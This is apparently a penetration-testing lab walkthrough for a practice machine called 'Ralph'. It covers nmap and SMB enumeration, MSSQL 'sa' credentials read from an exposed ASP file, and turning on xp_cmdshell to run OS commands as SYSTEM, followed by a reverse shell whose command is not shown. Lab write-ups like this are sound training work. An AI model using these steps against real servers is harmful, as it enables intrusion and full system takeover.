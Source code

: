 # Ralph (10.11.1.31)
****
## Enumeration
1. Enumerate running services using `nmap`
```
nmap -sV -sC -Pn 10.11.1.31
```

2. `nmap` was able to detect several running services, but for this machine, the area of interest are the **HTTP** service running on port 80, the **SMB** service running on port **139** and **445**, and lastly, the **mssql** service running on port **1433**
```
PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack Windows Server 2016
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server
```

3. We did further enumeration on port **445** and we noticed an uncommon shared folder named `wwwroot`. 

```
nmap --script=smb-enum* 10.11.1.31 -p445 -Pn
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
...
|   \\10.11.1.31\wwwroot: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ    
```

4. We've connected to `wwwroot` folder we and discovered an interesting file named `login-off.asp`.
```
smbclient //10.11.1.31/wwwroot
Password for [WORKGROUP\chris]:
Try "help" to get a list of possible commands.
smb: \> ls
...
  login-off.asp       A   1369  Fri Nov  1 21:18:45 2019
  login-off.asp.txt   A   1369  Fri Nov  1 21:18:45 2019
...  
```

> [!info] 
>  A [text version](http://10.11.1.31/login-off.asp.txt) of this file is also accessible through the web.  

5. `login-off.asp` contains credentials for **MS SQL** - the database used by the web app.
```
Username: sa
Password: poiuytrewq
```

## Exploitation
1. We established a connection to the **MS SQL Server** using the retrieved credentials and an SQL client named `dbeaver`
![[ralph-dbeaver.png]]
2. Using `dbeaver` SQL Editor, we've executed the following commands one by one
```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
EXEC xp_cmdshell 'whoami'
```

3. After executing the command `EXEC xp_cmdshell 'whoami'`, we are able to confirm that we can execute OS commands and it is running on the context of the user `nt authority\system`
![[ralph-whoami.png]]

## Post-exploitation
1. We've estabslihed a reversed shell and was able to read the flags
![[ralph-proof-network.png]]